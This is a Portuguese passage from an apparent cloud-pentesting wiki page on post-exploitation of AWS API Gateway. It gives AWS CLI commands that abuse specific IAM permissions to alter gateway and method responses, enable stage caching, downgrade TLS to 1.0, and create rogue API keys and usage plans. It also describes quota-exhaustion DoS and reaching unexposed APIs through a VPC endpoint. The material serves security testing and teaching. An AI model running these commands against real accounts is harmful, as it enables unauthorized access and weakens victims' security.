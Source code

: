 # AWS - Pós-Exploração do API Gateway

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## API Gateway

Para mais informações, consulte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acessar APIs não expostas

Você pode criar um endpoint em [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) com o serviço com.amazonaws.us-east-1.execute-api, expor o endpoint em uma rede onde você tenha acesso (potencialmente por meio de uma máquina EC2) e atribuir um grupo de segurança permitindo todas as conexões.\
Em seguida, a partir da máquina EC2, você poderá acessar o endpoint e, portanto, chamar a API do gateway que não foi exposta anteriormente.

### DoS de Planos de Uso

Na seção **Enumeração**, você pode ver como **obter o plano de uso** das chaves. Se você tiver a chave e ela estiver **limitada** a X usos **por mês**, você poderá **usá-la e causar um DoS**.

A **Chave da API** precisa ser **incluída** dentro de um **cabeçalho HTTP** chamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` pode **modificar uma resposta de gateway existente para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações confidenciais ou executam scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="seu-id-de-api"
RESPONSE_TYPE="DEFAULT_4XX"

# Atualize a resposta do gateway
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Crie uma implantação para a API REST do Gateway atualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Vazamento de informações confidenciais, execução de scripts maliciosos ou acesso não autorizado a recursos da API.

{% hint style="info" %}
Precisa de teste
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateStage` e `apigateway:CreateDeployment` pode **modificar um estágio existente do API Gateway para redirecionar o tráfego para um estágio diferente ou alterar as configurações de cache para obter acesso não autorizado a dados em cache**.

{% code overflow="wrap" %}
```bash
API_ID="seu-id-de-api"
STAGE_NAME="Prod"

# Atualize o estágio do API Gateway
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Crie uma implantação para a API REST do Gateway atualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Acesso não autorizado a dados em cache, interrupção ou interceptação do tráfego da API.

{% hint style="info" %}
Precisa de teste
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` pode **modificar a resposta do método de uma API REST do API Gateway existente para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações confidenciais ou executam scripts maliciosos**.

```bash
API_ID="seu-id-de-api"
RESOURCE_ID="seu-id-de-recurso"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Atualize a resposta do método
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Crie uma implantação para a API REST do Gateway atualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Impacto potencial**: Vazamento de informações confidenciais, execução de scripts maliciosos ou acesso não autorizado a recursos da API.

{% hint style="info" %}
Precisa de teste
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` pode **modificar as configurações da API REST do API Gateway para desativar o registro ou alterar a versão mínima do TLS, enfraquecendo potencialmente a segurança da API**.

```bash
API_ID="seu-id-de-api"

# Atualize as configurações da API REST
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Crie uma implantação para a API REST do Gateway atualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Impacto potencial**: Enfraquecimento da segurança da API, permitindo potencialmente acesso não autorizado ou exposição de informações confidenciais.

{% hint style="info" %}
Precisa de teste
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Um atacante com as permissões `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` e `apigateway:CreateUsagePlanKey` pode **criar novas chaves de API, associá-las a planos de uso e, em seguida, usar essas chaves para acesso não autorizado a APIs**.

```bash
# Crie uma nova chave de API
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Crie um novo plano de uso
USAGE_PLAN=$(aws apigateway create-usage-plan --name "PlanoDeUsoMalicioso" --output text --query 'id')

# Associe a chave da API ao plano de uso
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```

**Impacto potencial**: Acesso não autorizado a recursos da API, contornando controles de segurança.

{% hint style="info" %}
Precisa de teste
{% endhint %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar